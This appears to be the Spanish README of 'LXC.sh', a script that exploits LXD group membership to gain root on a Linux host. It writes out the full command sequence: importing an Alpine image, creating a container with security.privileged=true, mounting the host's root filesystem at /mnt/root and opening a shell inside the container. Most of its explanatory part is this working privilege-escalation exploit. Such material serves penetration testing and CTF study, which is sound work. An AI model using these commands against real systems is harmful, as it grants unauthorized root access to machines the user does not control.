




# LXC.sh

Este script se aprovecha de una deficiente gestión de permisos en el grupo LXD. Esta mala gestión de grupos permite al script realizar acciones indebidas, como manipular contenedores, acceder a recursos del sistema host o realizar modificaciones no autorizadas, violando las restricciones de seguridad establecidas.

# ¿Cómo funciona?

La ejecución de la herramienta mostrará el siguiente panel de ayuda:

<p align="center">
	
</p>


Para su correcta ejecución, es necesario primero descargar el script el cual automatizará la creación de la imagen:

<p align="center">
	
</p>

Y ejecutar el script que creara la imagen:

<p align="center">
	
</p>

Finalmente, ejecutar el script para crear el contenedor y acceder a la ruta **/mnt/root** la cual contiene todos los recursos de la máquina anfitrión:

<p align="center">
	
</p>

# Explicación

Lo primero que realiza el script es la importación de la imagen e inicializa el LXD

```bash
lxc image import $file --alias AlpineI && lxd init --auto
```
> LXD es una herramienta que gestiona y administra contenedores en entornos Linux.

Seguidamente, lo que se realiza es la inicialización del nuevo contenedor el cual contiene la flag **security.privileged=true** forzando al contenedor a interactuar como root con el sistema de archivos host.

```bash
lxc init AlpineI pwned -c security.privileged=true
```

Para luego añadir un dispositivo al contenedor el cual permite acceder a los recursos de la máquina anfitrión.

```bash
lxc config device add pwned GiveMeRoot disk source=/ path=/mnt/root recursive=true
```

Finalmente, se inicia el contenedor para luego ejecutar una shell dentro de esta.

```bash
lxc start pwned
lxc exec pwned /bin/sh
```
